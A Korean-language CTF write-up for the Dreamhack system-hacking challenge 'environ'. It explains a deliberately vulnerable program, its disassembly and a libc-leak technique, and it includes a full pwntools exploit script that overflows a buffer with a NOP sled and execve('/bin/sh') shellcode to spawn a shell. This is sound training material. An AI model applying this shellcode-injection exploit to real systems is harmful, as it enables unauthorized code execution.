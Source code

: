 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack 시스템 해킹 environ
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-20 17:30
---
```


오랜만에 풀어보는 시스템 해킹이다.

environ을 간단히 설명해보면 프로그램이 동작할 떄 시스템의 환경변수를 참조해야할 경우가 있다. 이때 사용하는 것이 environ 포인터인데 이는 시스템의 환경변수를 가리키며 로더의 초기화 함수에 의해 초기화 된다.

이번 문제의 코드를 살펴보면 다음과 같다
```c
int main()
{
    char buf[16];
    size_t size;
    long value;
    void (*jump)();

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    printf("Data: ");
    read(0, buf, size);

    printf("*jmp=");
    scanf("%ld", &value);

    jump = *(long *)value;
    jump();

    return 0;
}
```

stdout의 주소값을 출력해주고 입력받은 사이즈 만큼 buf에 쓰고 value의 주소를 정해줘 해당 주소로 점프해 어셈블리 코드를 실행하게 된다. 

바이너리에 걸린 보안 기술을 보면 다음과 같다
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
stack canary가 적용되어 있지만 이를 체크하기 전에 쉘 코드가 실행되어 크게 신경쓸 부분은 아닌것 같다.

우선 해당 바이너리를 익스하기 위해 stdout주소에서 stdout offset의 차를 구해 libc base주소를 구한다. 이후 해당 libc base주소에 environ offset을 더해 바이너리의 environ주소를 구한다. 다음으로 buf를 오버플로우 시켜 environ 영역에 쉘 코드를 삽입하고 해당 주소로 점프하면 쉘을 구할 수 있다.

main함수의 어셈블리를 살펴보자
```c
0x000000000040089a <+0>:     push   rbp
   0x000000000040089b <+1>:     mov    rbp,rsp
   0x000000000040089e <+4>:     sub    rsp,0x40
   0x00000000004008a2 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x00000000004008ab <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008af <+21>:    xor    eax,eax
   0x00000000004008b1 <+23>:    mov    eax,0x0
   0x00000000004008b6 <+28>:    call   0x40083e <initialize>
   0x00000000004008bb <+33>:    mov    rax,QWORD PTR [rip+0x2007be]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c2 <+40>:    mov    rsi,rax
   0x00000000004008c5 <+43>:    mov    edi,0x400a0d
   0x00000000004008ca <+48>:    mov    eax,0x0
   0x00000000004008cf <+53>:    call   0x4006a0 <printf@plt>
   0x00000000004008d4 <+58>:    mov    edi,0x400a19
   0x00000000004008d9 <+63>:    mov    eax,0x0
   0x00000000004008de <+68>:    call   0x4006a0 <printf@plt>
   0x00000000004008e3 <+73>:    lea    rax,[rbp-0x38]
   0x00000000004008e7 <+77>:    mov    rsi,rax
   0x00000000004008ea <+80>:    mov    edi,0x400a20
   0x00000000004008ef <+85>:    mov    eax,0x0
   0x00000000004008f4 <+90>:    call   0x400700 <__isoc99_scanf@plt>
   0x00000000004008f9 <+95>:    mov    edi,0x400a24
   0x00000000004008fe <+100>:   mov    eax,0x0
   0x0000000000400903 <+105>:   call   0x4006a0 <printf@plt>
   0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x000000000040090c <+114>:   lea    rax,[rbp-0x20]
   0x0000000000400910 <+118>:   mov    rsi,rax
   0x0000000000400913 <+121>:   mov    edi,0x0
   0x0000000000400918 <+126>:   call   0x4006c0 <read@plt>
   0x000000000040091d <+131>:   mov    edi,0x400a2b
   0x0000000000400922 <+136>:   mov    eax,0x0
   0x0000000000400927 <+141>:   call   0x4006a0 <printf@plt>
   0x000000000040092c <+146>:   lea    rax,[rbp-0x30]
   0x0000000000400930 <+150>:   mov    rsi,rax
   0x0000000000400933 <+153>:   mov    edi,0x400a20
   0x0000000000400938 <+158>:   mov    eax,0x0
   0x000000000040093d <+163>:   call   0x400700 <__isoc99_scanf@plt>
   0x0000000000400942 <+168>:   mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400946 <+172>:   mov    rax,QWORD PTR [rax]
   0x0000000000400949 <+175>:   mov    QWORD PTR [rbp-0x28],rax
   0x000000000040094d <+179>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400951 <+183>:   mov    eax,0x0
   0x0000000000400956 <+188>:   call   rdx
   0x0000000000400958 <+190>:   mov    eax,0x0
   0x000000000040095d <+195>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400961 <+199>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040096a <+208>:   je     0x400971 <main+215>
   0x000000000040096c <+210>:   call   0x400690 <__stack_chk_fail@plt>
   0x0000000000400971 <+215>:   leave  
   0x0000000000400972 <+216>:   ret 
```

stdout을 통해 libc base 주소를 구하는 것은 어렵지 않다.
pwntools을 이용하면 된다. 출력된 주소 - libc.symbols["_IO_2_1_stdout_"]를 이용하면 쉽게 구할 수 있다. 가장 중요한 것은 buf의 위치와 environ 위치의 offset을 구해야 하는데 gdb 상에서 살펴보면 read 함수에서 받아 저장할 위치는 rbp-0x20이라고 되어있다.

```c
0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
```

이부분의 주소값과 environ의 주소값의 차를 구하고 쉘코드의 길이를 더한 만큼 오버플로우 시켜야 한다.

그러면 buf와 environ의 offset 만큼의 nop코드로 채운 후 쉘코드를 삽입하고 이로 건너뛰는 시나리오가 될 것이다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 17150);
libc = ELF("./libc.so.6")
#c = process("./environ")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

shell = asm(shellcraft.execve("/bin/sh"))

c.recvuntil(b"stdout: ")
stdout = int(str(c.recvline()[:-1]).replace("b", "").replace("'", ''), 16)
print(f"stdout : {hex(stdout)}")

stdoutOffset = libc.symbols["_IO_2_1_stdout_"]
libcBase = stdout-stdoutOffset
print(f"libc base : {hex(libcBase)}")
print(f"libc offset : {hex(stdoutOffset)}")

envAddr = libcBase+libc.symbols["environ"]
print(f"environ addr : {hex(envAddr)}")
bufToenvOffset = 0x148
print(f"Buffer to environ addr offset : {hex(bufToenvOffset)}")

c.recvuntil(b"Size: ")
c.sendline(str(bufToenvOffset+len(shell)))

c.recvuntil(b"Data: ")
c.sendline(b"\x90"*bufToenvOffset+shell)

c.recvuntil(b"*jmp=")
c.sendline(str(envAddr))

c.interactive()
```

위 코드를 통해 익스플로잇이 가능하다. 